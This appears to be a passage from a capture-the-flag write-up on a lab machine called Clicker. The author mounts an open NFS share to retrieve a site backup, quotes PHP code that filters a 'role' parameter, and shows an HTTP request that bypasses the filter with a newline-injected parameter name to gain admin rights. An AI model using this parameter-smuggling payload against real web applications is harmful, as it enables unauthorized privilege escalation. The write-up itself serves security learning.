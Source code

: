 Looking at the ports there is also a NFS entry on port 2049, let's look into that.

```
$ showmount -e 10.10.11.232
Exports list on 10.10.11.232:
/mnt/backups                        *

$ sudo mount -o resvport -t nfs 10.10.11.232:/mnt/backups /private/nfs
$ ls /private/nfs
clicker.htb_backup.zip
$ cp /private/nfs/clicker.htb_backup.zip /tmp/
```

After looking at the share and finding a backup, inside the zip is a complete backup of the sites infrastructure with full PHP source code.

I then looked in `save-game.php` and was looking at potentially injecting the `role` key.

```php
session_start();
include_once("db_utils.php");

if (isset($_SESSION['PLAYER']) && $_SESSION['PLAYER'] != "") {
	$args = [];
	foreach($_GET as $key=>$value) {
		if (strtolower($key) === 'role') {
			// prevent malicious users to modify role
			header('Location: /index.php?err=Malicious activity detected!');
			die;
		}
		$args[$key] = $value;
	}
	save_profile($_SESSION['PLAYER'], $_GET);
	// update session info
	$_SESSION['CLICKS'] = $_GET['clicks'];
	$_SESSION['LEVEL'] = $_GET['level'];
	header('Location: /index.php?msg=Game has been saved!');
	
}
```

## Exploitation

I ended up using a CRLF to bypass the filter with the following request:

```
GET /save_game.php?clicks=11&level=111&role%0a=Admin HTTP/1.1
Host: clicker.htb
```

I then (which has me stalled for a, surprisingly long time...) had to log in and out to visit `admin.php` properly.
